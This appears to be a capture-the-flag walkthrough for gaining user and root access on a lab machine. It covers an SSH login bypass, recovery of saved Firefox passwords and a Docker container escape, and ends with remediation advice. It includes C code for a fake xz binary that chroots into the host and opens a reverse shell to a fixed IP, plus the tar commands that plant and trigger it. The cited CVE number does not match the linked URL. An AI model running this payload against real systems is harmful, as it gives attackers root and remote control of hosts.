## User Flag
- Recon:
    - 
- Visit:
    - 
- We are blocked with no obvious way in, lets see, for ssh the version is 10.6...
    - 
- what?? If we enter a string length of 257-1024 characters, we could bypass the authentication? this is very...interesting
- Let's input over 257 A's for the user `alpine` and we see that
    - 
- Let's do some basic enumeration and we can find out in `~/.mozilla/firefox/zentara.default` there is `logins.json`, and inside there is an encrypted password, but it looks only base64 encoded, so we decode it and see a username/password that might be useful on the webpage that blocked us!
- 
- 
- We are in!
- 
- but maybe we dont need this cause bob might reuse his pwd on ssh
    - 
## Root Flag
- We see that in the Zentara view, the docker version is 29.5.0
    - 
- Which is vulnerable to CVE-2026-41517
    - https://kitploit.com/en/tools/github/berdav/cve-2026-41567
> when the uploaded archive is compressed, dockerd calls an external program to decompress it (`xz`, or `unpigz` for gzip). Docker is supposed to use the host’s copy of that program, but the bug makes it use the **container’s** copy, e.g. the container’s `/usr/bin/xz`. Whatever binary it finds runs as the daemon: host root with full capabilities, including `CAP_SYS_ADMIN`. So what we actually do is be fake the `/usr/bin/xz`, and trick docker to use our malicious xz which gives root to decompress the trigging .xz file

- What we can do is build a malicious trojan and try to escape to the host with root privs via this upload api path
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/mount.h>
int main(int argc, char *argv[]) {
	mount("proc", "/proc", "proc", 0, NULL);
	chroot("/proc/1/root");
	chdir("/");
	execl("/bin/bash", "bash", "-c",
		"bash -i >& /dev/tcp/10.10.16.159/4444 0>&1", NULL);

	return 1;
}
```
- 
- See that the archives are decompressed server-side before extraction, so we try uploading .tar in there and later triggering it
- `mkdir -p pkg/usr/bin && cp xz pkg/usr/bin/xz
cd pkg && tar cf ../plant.tar usr/bin/xz` -> Docker extracts the archive at the container’s root, and a stored path of `usr/bin/xz` resolves to `/usr/bin/xz`, replacing the real binary
- 
- `echo x > t && tar cf - t | xz > trigger.tar.xz` -> just the trigger
- Start a listener
- 
- then we have root.
- 

## Remediation

- **Patch OpenSSH.** The foothold was an authentication bypass in the installed OpenSSH version. Upgrade it, and don't expose SSH more widely than it needs to be.
- **Saved browser passwords need a primary password.** Without a Firefox primary password, `logins.json` is only obfuscated, so anyone who can read the profile can recover the logins. Set a primary password or use a real password manager.
- **No password reuse.** bob's web password also worked for SSH.
- **Patch Docker, and treat access to the daemon as root.** Root came from a Docker Engine 29.5.0 flaw in which the daemon ran the container's decompressor as host root. Upgrade, and remember that anyone who can reach the Docker API (here through the dashboard's upload feature) effectively has root; run rootless Docker where possible.

### References

- [OpenSSH — security advisories](https://www.openssh.com/security.html)
- [Docker — Docker Engine security](https://docs.docker.com/engine/security/)
- [Docker — rootless mode](https://docs.docker.com/engine/security/rootless/)
- [Mozilla — use a primary password to protect stored logins](https://support.mozilla.org/en-US/kb/use-primary-password-protect-stored-logins)
